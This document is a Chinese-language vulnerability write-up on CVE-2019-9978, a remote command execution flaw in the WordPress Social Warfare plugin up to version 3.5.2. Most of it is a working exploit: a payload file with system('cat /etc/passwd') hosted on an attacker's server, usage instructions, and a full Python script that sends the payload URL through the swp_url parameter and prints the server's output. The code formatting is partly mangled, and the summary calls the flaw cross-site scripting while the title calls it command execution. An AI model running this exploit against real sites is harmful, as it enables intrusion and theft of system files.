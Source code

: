 ```yaml
---
title: "（CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞"
id: zhfly3248
---
```


# （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞

## 一、漏洞简介

WordPress social-warfare插件3.5.3之前版本中存在跨站脚本漏洞。远程攻击者可借助‘swp_url’参数利用该漏洞注入恶意的JavaScript脚本。

## 二、漏洞影响

Social WarFare Plugin (<=3.5.2)

## 三、复现过程

### poc

> 首先在自己的服务器上传http(s)://www.0-sec.org/payload.txt

```
<pre>system('cat /etc/passwd')</pre> 
```

> useage
> 
> ```
>  python cve-2019-9978.py --target http://vulntarget.com \
>                          --payload-uri http://yourpayloadsite.com/payload.txt 
> ```

```
# title: "RCE in Social Warfare Plugin ( <=3.5.2 )"
# Date: March, 2019
# Researcher: Luka Sikic
# Exploit Author: hash3liZer
# Download Link: https://wordpress.org/plugins/social-warfare/
# Version: <= 3.5.2
# CVE: CVE-2019-9978

import sys

import requests

import re

import urlparse

import optparse

class EXPLOIT:

```
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&amp;swp_url=%s"

def __init__(self, _t, _p):
	self.target  = _t
	self.payload = _p

def engage(self):
	uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
	r = requests.get( uri )
	if r.status_code == 500:
		print "[*] Received Response From Server!"
		rr  = r.text
		obj = re.search(r"^(.*)&lt;\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
		if obj:
			resp = obj.groups()[0]
			if resp:
				print "[&lt;] Received: "
				print resp.replace( "lnbreak", "\n" )
			else:
				sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
	else:
		sys.exit( "[~] Unexpected Status Received!" ) 
```

def main():

parser = optparse.OptionParser(  )

```
parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

(options, args) = parser.parse_args()

print "[&gt;] Sending Payload to System!"
exploit = EXPLOIT( options.target, options.payload )
exploit.engage() 
``` `if **name** == “**main**”:

main()` 
```